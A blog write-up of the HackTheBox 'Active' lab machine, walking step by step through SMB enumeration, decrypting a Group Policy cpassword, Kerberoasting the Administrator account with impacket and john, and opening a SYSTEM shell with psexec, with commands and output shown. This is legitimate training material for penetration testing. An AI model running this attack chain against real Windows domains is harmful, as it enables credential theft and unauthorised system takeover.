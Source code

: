 ```yaml
---
title: "HTB: Active Write-up"
date: 2021-05-20 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - windows
  - active directory
  - SMB
---
```


Going back to Windows for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. "Active" is a Windows machine which involves some Active Directory based exploitation.

## Enumeration

For a change of pace, I decided to do this box without using AutoRecon. Instead, I started the old fashioned way with an `nmap` scan.

```bash
nmap -p- -T4 -sSV -oA active -v 10.10.10.100 --version-all
```

Looking at the `nmap` results, it seems like this is a Windows Domain Controller.

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-20 23:10:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
```

### SMB Spelunking

Lets begin by enumerating SMB. One of my favorite tools for enumerating SMB shares is [smbmap], which I used to enumerate all available shares. I ended up getting burned by this tool however, because I didn't RTFM carefully enough. I ran the following command.

```bash
smbmap -R -H 10.10.10.100
```

Which gave me the following output.

```txt
[+] IP: 10.10.10.100:445 Name: 10.10.10.100
        Disk                                                   Permissions Comment
 ----                                                   ----------- -------
 ADMIN$                                             NO ACCESS Remote Admin
 C$                                                 NO ACCESS Default share
 IPC$                                               NO ACCESS Remote IPC
 NETLOGON                                           NO ACCESS Logon server share
 Replication                                        READ ONLY
 .\Replication\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 active.htb
 .\Replication\active.htb\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 ...
```

I assumed that this output showed a complete coverage of what was contained in this share, but it turns out that it was actually missing the critical file for progressing forward. By default, the `smbmap` tool only recurses 5 levels deep into the directory structure, while the file that I was looking for was 6 levels deep. This setting can be changed with the `--depth` flag, which I used when I ran `smbmap` again (after a few hours of spinning my wheels).

```bash
$ smbmap -R -H 10.10.10.100 --depth 20
...
.\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 fr--r--r--              533 Sat Jul 21 06:38:11 2018 Groups.xml
```

The second run uncovered a few interesting files, including this Groups.xml file, which contains what appears to be user credentials.

### Groups.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

After some googling, it looks like these "cpassword" files just contain [an AES encrypted version of the user's password][cpass], and Micro$oft was even kind enough to publish the key to decrypt them! I found a python-based tool online that can decrypt these files using the published MS key, so I tried it against the Groups.xml file.

```bash
$ python3 gpp-decrypt.py -f ~/HTB/active/loot/Groups.xml
...
[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```

Looks like we got some credentials! Lets use [crackmapexec][cme] to verify that these creds work.

```bash
$ cme smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## Active Directory Exploitation

Now that `cme` has validated the creds, its time to do some Active Directory enumeration.The very first thing that I do when I get valid Active Directory user credentials is running [Bloodhound][BloodHound] to harvest the target's AD environment. I like using fox-it's [python-based Bloodhound ingestor][bloodhound.py] because I can run it from my Kali instance instead of on a target machine.

```bash
bloodhound-python -u SVC_TGS -p "GPPstillStandingStrong2k18" -d active.htb -c All -dc active.htb -ns 10.10.10.100 --zip
```

We can toss the output files from this into bloodhound, then start doing some queries. One of the first queries I like to run "Shortest Paths from Kerboroastable Users" which looks for paths to high value targets starting from Kerboroastable users.

![Bloodhound Output](/assets/images/HTB/active/bloodhound.png)

It looks like the "Administrator" account is both a local admin on active.htb, *and* is Kerboroastable.

### And so we Kerboroast

Kerboroasting is an attack that exploits the underlying functionality of the Kerberos authentication system. People much smarter than I have done a much better job explaining it, so I would encourage you to do some googling if you haven't heard about it before :). We can use the "GetUserSPNs" script from impacket to retrieve the password hashes of all kerboroastable users in a format that `john` can easily ingest.

```bash
$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -target-domain active.htb -request -outputfile kerb.hashes -dc-ip 10.10.10.100
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon
--------------------  -------------  --------------------------------------------------------  --------------------------  -------------------------- 
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

```bash
$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt kerb.hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:08 DONE (2021-05-20 20:00) 0.1122g/s 1182Kp/s 1182Kc/s 1182KC/s Tiffani143..Thurlow
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The hash cracked, which means we should have the credentials for the local admin on `active.htb`. Again, I'll use `cme` to verify the creds.

```bash
$ cme smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

### Shell or Go Home

Pwn3d indeed. I could use `smbclient` to just retrieve the `user.txt` and `root.txt` flags, but I want to use these boxes as preparation for the OSCP, so its shell or bust. Impacket's "PSExec" script can be used to get a shell on a host when you have valid credentials.

```bash
$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 -dc-ip 10.10.10.100                                                                                                          1 ⨯
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file voslUSDJ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service oAyk on 10.10.10.100.....
[*] Starting service oAyk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
